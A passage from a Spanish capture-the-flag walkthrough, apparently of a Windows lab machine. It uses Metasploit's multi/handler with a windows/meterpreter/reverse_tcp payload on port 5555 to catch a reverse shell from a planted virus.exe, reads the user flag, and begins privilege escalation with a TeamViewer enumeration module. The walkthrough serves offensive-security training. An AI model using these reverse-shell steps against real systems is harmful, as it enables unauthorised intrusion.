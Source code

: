 Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:

![image](../zimages/Pasted_image_20231203215628.png)

con el comando

```msfconsole

set PAYLOAD windows/meterpreter/reverse_tcp

```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:

![image](../zimages/Pasted_image_20231203220118.png)

ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:

![image](../zimages/Pasted_image_20231203220355.png)

Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:

![image](../zimages/Pasted_image_20231203221312.png)

ahora iremos a C:\Users\Public\ para ver la flag de user:

![image](../zimages/Pasted_image_20231203221719.png)



# Escalada 1


Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.

Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente:


```msfconsole

search teamviewer

```


![image](../zimages/Pasted_image_20231203223006.png)

elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:
